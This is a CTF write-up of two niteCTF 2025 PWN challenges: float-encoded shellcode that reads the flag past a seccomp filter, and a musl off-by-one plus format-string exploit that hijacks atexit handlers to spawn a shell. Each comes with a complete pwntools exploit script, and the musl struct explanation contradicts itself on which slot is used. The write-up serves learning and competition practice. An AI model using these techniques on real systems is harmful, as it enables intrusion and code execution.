





# IEEE DANCER

## challenge info

- **Challenge Name:** `IEEE DANCER`<br>
- **Category:** PWN<br>
- **Points:** 50<br>
- **Solves:** 108<br>
- **Description:** Drain your floats in style with higher precision!<br>

## Initial Analysis

We are given a binary `chall`.<br>

```sh frame="none" ShowLineNumbers=false
$ file chall

chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=19468a83b6cf568595bfdf4072b382b89e6166c4, for GNU/Linux 3.2.0, not stripped
```

- **64-bit ELF:** We're dealing with x86-64 architecture.
- **PIE executable:** Addresses are randomized.
- **Dynamically linked:** Uses shared libraries.
- **Not stripped: Debug** symbols are present.

```sh frame="none" ShowLineNumbers=false
$ checksec --file=chall

    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

- **Full RELRO:** GOT is read-only.
- **Stack Canary:** Stack overflow protection is enabled.
- **NX enabled:** Non-executable stack.
- **PIE:** Addresses are randomized.
- **SHSTK:** Shadow stack (anti-ROP).
- **IBT:** Indirect branch tracking.

When we run the binary, we observe the following behavior:



The program asks for a number of floats, reads them in, and then appears to do something with them before crashing, if we enter a non float input it crashes.

## Reverse Engineering

Using Ghidra we can decompile the binary. Here's the cleaned up code:

```c
undefined8 main(void)

{
  int iVar1;
  undefined8 uVar2;
  long in_FS_OFFSET;
  int floats_num;
  int i;
  code *allocated_mem;
  size_t local_28;
  void *local_20;
  code *local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("enter the number of floats you want to enter!");
  __isoc99_scanf(&DAT_00102056,&floats_num);
  if (100 < floats_num) {
    puts("too much");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  allocated_mem = (code *)calloc((long)floats_num,8);
  if (allocated_mem == (code *)0x0) {
    perror("calloc");
    uVar2 = 1;
  }
  else {
    for (i = 0; i < floats_num; i = i + 1) {
      __isoc99_scanf(&DAT_00102069,allocated_mem + (long)i * 8);
    }
    local_28 = sysconf(0x1e);
    local_20 = (void *)((ulong)allocated_mem & -local_28);
    iVar1 = mprotect(local_20,local_28,7);
    if (iVar1 < 0) {
      perror("mprotect");
      uVar2 = 1;
    }
    else {
      enable_seccomp();
      puts("draining in progress...");
      local_18 = allocated_mem;
      (*allocated_mem)();
      uVar2 = 0;
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return uVar2;
}
```

Let's break down what the program does:

- **Input Validation:** The program asks for the number of floats to enter, limiting it to 100 or fewer.
- **Memory Allocation:** It allocates memory using `calloc((long)floats_num, 8)`, allocating 8 bytes per float.
- **Reading Input:** The program reads floats using scanf with format string %lf.
- **Memory Protection:** The mprotect call with permission 7 makes the allocated memory readable, writable, and executable.
```c ShowLineNumbers=false
local_28 = sysconf(0x1e);
local_20 = (void *)((ulong)allocated_mem & -local_28);
iVar1 = mprotect(local_20,local_28,7);  // Make memory RWX (7 = READ|WRITE|EXEC)
```
- **Seccomp Filter:** Before execution, `enable_seccomp()` is called, which likely restricts available syscalls.
- **Execution:** Finally, the program jumps to the allocated memory: `(*local_30)()`, treating our input as executable code.

From here we understand that we need to inject shellcode, but before that let's analyse the seccomp filter.

## Seccomp Analysis

We will use a tool called [seccomp-tool](https://github.com/david942j/seccomp-tools) to analyse the seccomp rules:

```sh frame="none" ShowLineNumbers=false
$ seccomp-tools dump ./chall

 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010
 0008: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0010
 0009: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
```

The seccomp filter only allows `open`, `read`, `write`, `exit` and `exit_group` syscalls. That means we won't be able to do the regular `execve()` shellcode, instead we can just read the flag directly via `open`, `read`, `write`.<br>

## Exploitation

The vulnerability is clear, the program allows us to input floats that are then placed in executable memory and executed as shellcode, we can craft shellcode to:

> Open flag file<br>
> Read its contents<br>
> Write to stdout<br>

We can do that using this shellcode:
```python
shellcode = asm('''
    # open("flag", O_RDONLY, 0)
    xor rax, rax
    push rax
    mov rbx, 0x67616c66        
    push rbx
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    syscall
    
    # read(fd, buffer, 100)
    mov rdi, rax
    sub rsp, 0x100
    xor rax, rax
    mov rsi, rsp
    mov rdx, 100
    syscall
    
    # write(stdout, buffer, bytes_read)
    mov rdx, rax
    mov rax, 1
    mov rdi, 1
    mov rsi, rsp
    syscall
    
    # exit(0)
    mov rax, 60
    xor rdi, rdi
    syscall
''')
```


Next we convert our shellcode from bytes to doubles since the program reads doubles with scanf("%lf"), we need to:

- Break our shellcode into 8-byte chunks<br>
- Interpret each chunk as a 64-bit integer<br>
- Convert that integer to its double representation<br>
- Send it in a format scanf can parse<br>

## Solution

Here's the complete exploit script:

```python
from pwn import *
import struct

elf = context.binary = ELF('./chall')
context.arch = 'amd64'
#p = elf.process()
p = remote('dancer.chals.nitectf25.live',1337,ssl=True)

shellcode = asm('''
    xor rax, rax
    push rax
    mov rbx, 0x67616c66        
    push rbx
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    syscall
    
    mov rdi, rax
    sub rsp, 0x100
    xor rax, rax
    mov rsi, rsp
    mov rdx, 100
    syscall
    
    mov rdx, rax
    mov rax, 1
    mov rdi, 1
    mov rsi, rsp
    syscall
    
    mov rax, 60
    xor rdi, rdi
    syscall
''')

# Convert shellcode bytes to doubles
doubles = []
for i in range(0, len(shellcode), 8):
    chunk = shellcode[i:i+8].ljust(8, b'\x00')
    double_val = u64(chunk)
    doubles.append(double_val)

p.sendline(str(len(doubles)).encode())

# Send each double as a float 
for d in doubles:
    float_str = str(struct.unpack('d', struct.pack('Q', d))[0])
    p.sendline(float_str.encode())

p.interactive()
```

We run the script and get the flag.




**Flag:** `nite{W4stem4n_dr41nss_aLLth3_fl04Ts_int0_ex3cut5bl3_sp4ce}`
<br>
<br>
# beating_yellow_king_with_musl_in_ng+

## challenge info

- **Challenge Name:** `beating_yellow_king_with_musl_in_ng+`<br>
- **Category:** PWN<br>
- **Points:** 127<br>
- **Solves:** 39<br>
- **Description:** Beat the YellowKing in new game+ mode with your muscles, brawn over brain baby! <br>

## Initial Analysis

We are given a binary `chall` and a libc file `libc.so`.

```sh frame="none" ShowLineNumbers=false
$ file chall

chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./libc.so, not stripped
```

```sh frame="none" ShowLineNumbers=false
$ checksec --file=chall

    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'/nix/store/giplgywdxwfvhiy6b466zim2jiz2h141-shell/lib:/nix/store/wwb9g1hq316g0dgljfm5yb398dz3flxh-musl-1.2.5/lib:/nix/store/i3ibgfskl99qd8rslafbpaa1dmxdzh1z-glibc-2.40-66/lib'
    Stripped:   No
```

- **Full RELRO:** GOT is read-only, can't overwrite function pointers
- **Stack Canary:** Stack overflow protection enabled
- **NX:** Stack is not executable, can't run shellcode
- **No PIE:** Binary loaded at fixed address (0x400000), BSS section at predictable location

The key observation here is that the binary uses MUSL libc instead of the standard glibc. This is important because MUSL has different internal structures and lacks many of glibc's hooks like __malloc_hook and __free_hook.

```sh frame="none" ShowLineNumbers=false
$ ./libc.so  

musl libc (x86_64)
Version 1.2.5
Dynamic Program Loader
Usage: ./libc.so [options] [--] pathname [args]
```

When we run the binary, we observe the following behavior:



The program presents a MUD (Multi-User Dungeon) style interface with three options:

- Make a new Character
- Defeat the Yellow King
- Return (exit)

## Reverse Engineering

Using Ghidra, we can decompile the binary. Here are the key functions:


### main

```c title="main"
void main(void)

{
  long in_FS_OFFSET;
  int local_24;
  undefined8 local_20;
  
  local_20 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setbuf(_stdout,(char *)0x0);
  setbuf(_stdin,(char *)0x0);
  setbuf(_stderr,(char *)0x0);
  while( true ) {
    while( true ) {
      menu();
      scanf("%d",&local_24);
      if (local_24 != 2) break;
      action();
    }
    if (local_24 == 3) break;
    if (local_24 == 1) {
      make_char();
    }
    else {
      puts("wrong option");
    }
  }

   exit(0);
}
```

This function implements a menu loop with three options:

- Option 1: Calls make_char() - Create a new character.
- Option 2: Calls action() - Interact with a character.
- Option 3: Breaks loop and calls exit(0).

### make_char

```c title="make_char"

undefined8 make_char(void)

{
  void *__buf;
  undefined8 extraout_RAX;
  ssize_t sVar1;
  long in_FS_OFFSET;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_14 = 0;
  puts("enter index:");
  scanf("%d",&local_14);
  if (local_14 < 0x10) {
    __buf = malloc(0x21);
    puts("Enter the class");
    printf("1.magician\n2.swordsman\n3.thief\n>>");
    scanf("%hhu",(long)__buf + 0x20);
    if (2 < (byte)(*(char *)((long)__buf + 0x20) - 1U)) {
      if (*(char *)((long)__buf + 0x20) == '\0') {
        puts("You aren\'t D3rdlord3");
        if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) goto LAB_00401430;
LAB_00401394:
        free(__buf);
        return extraout_RAX;
      }
      puts("Wrong class");
      if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) goto LAB_00401394;
      goto LAB_00401430;
    }
    printf("Enter the name for character\n>>");
    sVar1 = read(0,__buf,0x20);
    *(undefined1 *)((long)__buf + sVar1) = 0;
    *(void **)(list + (long)(int)local_14 * 8) = __buf;
  }
  else {
    puts("wrong index");
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
LAB_00401430:

__stack_chk_fail();
}
```

- This fucntion asks for an index (0-15) to store the character.
- Allocates exactly 33 bytes with malloc(0x21).
- Reads the class byte at offset 0x20 (byte 32).
- Validates class: 1, 2 or 3 are valid, we have a secret class 0.
- Reads character name (up to 32 bytes).
- Null-terminates at position `buf[sVar1]`.
- Stores the buffer pointer in a global list array.

We have an off-by-One vulnerability:
```c
sVar1 = read(0,__buf,0x20); // Read up to 32 bytes
*(undefined1 *)((long)__buf + sVar1) = 0; // Write NULL at buf[sVar1]
```
- If we send exactly 32 bytes, `read()` returns `sVar1 = 32`.
- The null byte is written at `buf[32]` which is the class byte.
- This overwrites the class with 0, bypassing the validation

### action

```c title="action"

undefined1  [16] action(void)

{
  byte bVar1;
  void *__ptr;
  int iVar2;
  long in_FS_OFFSET;
  uint local_6c;
  char local_68 [72];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  puts("enter index:");
  scanf("%d",&local_6c);
  if (0xf < local_6c) {
    puts("wrong index");
    goto LAB_004015ca;
  }
  __ptr = *(void **)(list + (long)(int)local_6c * 8);
  printf("You chose %s \n",__ptr);
  bVar1 = *(byte *)((long)__ptr + 0x20);
  if (bVar1 != 2) {
    if (bVar1 < 3) {
      if (bVar1 == 0) {
        puts("You may leave a message about your encounter and leave..");
        read(0,local_68,0x30);
        iVar2 = count_char(local_68,0x25,0xd);
        if (iVar2 == 0) {
          puts("The message left for other adventurers..");
          printf(local_68);
        }
        else {
          puts("No one can handle that much knowledge..");
        }
        goto LAB_004015ca;
      }
    }
    else if (bVar1 != 3) goto LAB_004015ca;
  }
  puts("You have lost");
  *(undefined8 *)(list + (long)(int)local_6c * 8) = 0;
  free(__ptr);
LAB_004015ca:
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {

    __stack_chk_fail();
  }
  return ZEXT816(0);
}
```

- This function asks for character index.
- Loads the character pointer from the global list.
- Prints the character name.
- Checks the class byte and branches, if the class byte is 0 we can enter a message with format string vulnerability.

```c
if (bVar1 == 0) {  // Class 0 
    read(0,local_68,0x30);  // Read up to 48 bytes into local_68
    iVar2 = count_char(local_68,0x25,0xd);  // Count '%' chars
    if (iVar2 == 0) {  // If <= 13 '%' chars
        printf(local_68);  // format string vulnerability
    }
}
```

### count_char

```c title="count_char"
bool count_char(char *param_1,int param_2,int param_3)

{
  size_t sVar1;
  int iVar2;
  ulong uVar3;
  long in_FS_OFFSET;
  undefined1 local_138 [16];
  undefined1 local_128 [16];
  undefined1 local_118 [16];
  undefined1 local_108 [16];
  undefined1 local_f8 [16];
  undefined1 local_e8 [16];
  undefined1 local_d8 [16];
  undefined1 local_c8 [16];
  undefined1 local_b8 [16];
  undefined1 local_a8 [16];
  undefined1 local_98 [16];
  undefined1 local_88 [16];
  undefined1 local_78 [16];
  undefined1 local_68 [16];
  undefined1 local_58 [16];
  undefined1 local_48 [16];
  long local_30;
  
  iVar2 = 0;
  local_30 = *(long *)(in_FS_OFFSET + 0x28);
  local_138 = (undefined1  [16])0x0;
  local_128 = (undefined1  [16])0x0;
  local_118 = (undefined1  [16])0x0;
  local_108 = (undefined1  [16])0x0;
  local_f8 = (undefined1  [16])0x0;
  local_e8 = (undefined1  [16])0x0;
  local_d8 = (undefined1  [16])0x0;
  local_c8 = (undefined1  [16])0x0;
  local_b8 = (undefined1  [16])0x0;
  local_a8 = (undefined1  [16])0x0;
  local_98 = (undefined1  [16])0x0;
  local_88 = (undefined1  [16])0x0;
  local_78 = (undefined1  [16])0x0;
  local_68 = (undefined1  [16])0x0;
  local_58 = (undefined1  [16])0x0;
  local_48 = (undefined1  [16])0x0;
  while( true ) {
    uVar3 = (ulong)iVar2;
    sVar1 = strlen(param_1);
    if (sVar1 <= uVar3) break;
    iVar2 = iVar2 + 1;
    local_138[param_1[uVar3]] = local_138[param_1[uVar3]] + '\x01';
  }
  if (local_30 == *(long *)(in_FS_OFFSET + 0x28)) {
    return param_3 < (char)local_138[param_2];
  }
  __stack_chk_fail();
}
```

This function implements a frequency counter for characters in a string. In our case it checks if the number of `%` is more than 13 then it returns false.

## Exploitation

Let's start by making some functions to help us interact with the binary

```python
def make_char(idx,clas,name):
    p.sendline(b'1')
    p.sendlineafter(b'enter index:',str(idx).encode())
    p.sendlineafter(b'>>',str(clas).encode())
    p.sendlineafter(b'>>',name)

def action(idx, message):
    p.sendlineafter(b'>>', b'2')
    p.sendlineafter(b'enter index:', str(idx).encode())
    p.sendlineafter(b'encounter and leave..', message)
    p.recvuntil(b'The message left for other adventurers..')
    result = p.recvuntil(b'---MUD---', drop=True).strip()
    return result
```

### Arbitrary Read

First we change the class byte to 0 using the off-by-one vulnerability
```python
make_char(0,1,b'A'*32)
```

Now let's try to get a libc leak using the format string vulnerability.<br>
On glibc, format string exploits commonly use positional specifiers like `%3$p` or `%12$hhn` to access specific arguments. On musl, these specifiers are unreliable and do not behave the same way which means using `$` syntax either doesn't work or produces unexpected results.<br>
Instead of positional access, the exploit relies on sequential consumption of arguments. When the program calls `printf(local_68)` where `local_68` is our controlled buffer, only the format string is provided as an argument.<br>

Sending a bunch of `%p` gives us a libc leak:



The leaked value corresponds to the stdout structure inside libc. Since the offset of `__stdout_FILE` is known, we recover the libc base by subtracting this offset from the leaked address:

```python ShowLineNumbers=false

libc.address = int(action(0,b'%p%p%p%p%p%p')[5:],16) - libc.symbols['__stdout_FILE']
log.info(f'base addr: {hex(libc.address)}')
```

### Arbitrary Write

Since this challenge uses MUSL instead of glibc, we can't use typical exploitation techniques like overwriting `__malloc_hook` or `__free_hook`. Additionally, we have Full RELRO which means the GOT is read-only.

We can try a ROP chain but there is a better approach, we notice that the main function doesn't return but exits instead with `exit(0)`.
The key is to understand how MUSL handles exit handlers registered via `atexit()`. When `exit()` is called, MUSL executes `__funcs_on_exit()`:

Source code here: [atexit.c](https://github.com/esmil/musl/blob/master/src/exit/atexit.c)
```c
#define COUNT 32

void __funcs_on_exit()
{
	int i;
	void (*func)(void *), *arg;
	LOCK(lock);
	for (; head; head=head->next) for (i=COUNT-1; i>=0; i--) {
		if (!head->f[i]) continue;
		func = head->f[i];
		arg = head->a[i];
		head->f[i] = 0;
		UNLOCK(lock);
		func(arg);
		LOCK(lock);
	}
}
```

The mechanism is straightforward:

- MUSL maintains a global head pointer to an exit handler list.
- When `exit()` is called, `__funcs_on_exit()` iterates through this list.
- For each handler, it loads a function pointer and argument.
- It executes `func(arg)` for each handler.

This gives us a clear exploitation path, if we control the `head` pointer and the structure it points to, we can make MUSL call any function with any argument.

Our plan:
- Create a fake exit handler structure in a controlled memory location (bss).
- Place `system` as the function pointer.
- Place `"/bin/sh"` as the argument.
- Overwrite the `head` global to point to our fake structure.
- Trigger `exit()` by selecting menu option 3.

```python ShowLineNumbers=false
head_addr = libc.address + 0xc0d88
slot_addr = libc.address + 0xc0fa4
log.info(f'head: {hex(head_addr)}\t slot: {hex(slot_addr)}')
fake_struct = 0x404000 + 0x100
```

Since our input is limited to 13 `%` we need split our payload, we can do that using these functions:

```python ShowLineNumbers=false
def arb_write(addr, value):
    payload = fmtstr_payload(8, {
        addr: p8(value)
    },no_dollars=True, write_size='byte')
    action(0, payload)

def write_byte(addr, value):
    for i in range(0, len(value)):
        arb_write(addr + i, value[i])
```

Let's take a look at the fl struct:

```c ShowLineNumbers=false
#define COUNT 32

static struct fl
{
	struct fl *next;
	void (*f[COUNT])(void *);
	void *a[COUNT];
} builtin, *head;
```

- `f[32]`: An array of 32 function pointers (offset 0x0 - 0x100)
- `a[32]`: An array of 32 arguments corresponding to each function (offset 0x100 - 0x200)
- `next`: Pointer to the next handler block

The layout looks like this:
```sh frame="none"
+0x000: f[0]   (function pointer 0)
+0x008: f[1]   (function pointer 1)
...
+0x100: a[0]   (argument for f[0])
+0x108: a[1]   (argument for f[1])
...
```

We write the address of `system()` at offset `0x8` in our fake structure. This is `f[1]` in the handler array.
We write the pointer to `/bin/sh` at offset `0x108`. This corresponds to `a[1]` - the argument for `f[1]`.
We set the slot counter to 1, indicating there's at least one registered handler. Without this, the exit mechanism might skip processing entirely.

```python ShowLineNumbers=false
write_byte(head_addr, p64(fake_struct))
write_byte(fake_struct + 0x8, p64(libc.sym.system))
write_byte(fake_struct + 0x108, p64(next(libc.search(b'/bin/sh\x00'))))
write_byte(slot_addr, p32(1)) 
```

When exit() runs:

- MUSL calls `__funcs_on_exit()`.
- It loads head -> finds our fake structure at `0x404100`.
- It loads func = `fake_fl->f[31]` -> gets `system`.
- It loads arg = `fake_fl->a[31]` -> gets `/bin/sh`.
- It executes `system("/bin/sh")`.

## Solution

Here’s the complete exploit script:

```python
from pwn import *

elf = context.binary = ELF('./chall',False)
libc = ELF('./libc.so',False)
#p = elf.process()
p = remote('yellow.chals.nitectf25.live',1337,ssl=True)

def make_char(idx,clas,name):
    p.sendline(b'1')
    p.sendlineafter(b'enter index:',str(idx).encode())
    p.sendlineafter(b'>>',str(clas).encode())
    p.sendlineafter(b'>>',name)

def action(idx, message):
    p.sendlineafter(b'>>', b'2')
    p.sendlineafter(b'enter index:', str(idx).encode())
    p.sendlineafter(b'encounter and leave..', message)
    p.recvuntil(b'The message left for other adventurers..')
    result = p.recvuntil(b'---MUD---', drop=True).strip()
    return result

def arb_write(addr, value):
    payload = fmtstr_payload(8, {
        addr: p8(value)
    },no_dollars=True, write_size='byte')
    action(0, payload)

def write_byte(addr, value):
    for i in range(0, len(value)):
        arb_write(addr + i, value[i])

make_char(0,1,b'A'*32)
libc.address = int(action(0,b'%p%p%p%p%p%p')[5:],16) - libc.symbols['__stdout_FILE']
log.info(f'base addr: {hex(libc.address)}')

head_addr = libc.address + 0xc0d88
slot_addr = libc.address + 0xc0fa4
log.info(f'head: {hex(head_addr)}\t slot: {hex(slot_addr)}')
fake_struct = 0x404000 + 0x100

write_byte(head_addr, p64(fake_struct))
write_byte(fake_struct + 0x8, p64(libc.sym.system))
write_byte(fake_struct + 0x108, p64(next(libc.search(b'/bin/sh\x00'))))
write_byte(slot_addr, p32(1)) 

p.sendlineafter(b'>>',b'3')

p.interactive()
```

We run the script and get the flag:



**Flag:** `nite{b34TinG_yeLl0wk1ng_1n_ng+_w1thNo$$s}`
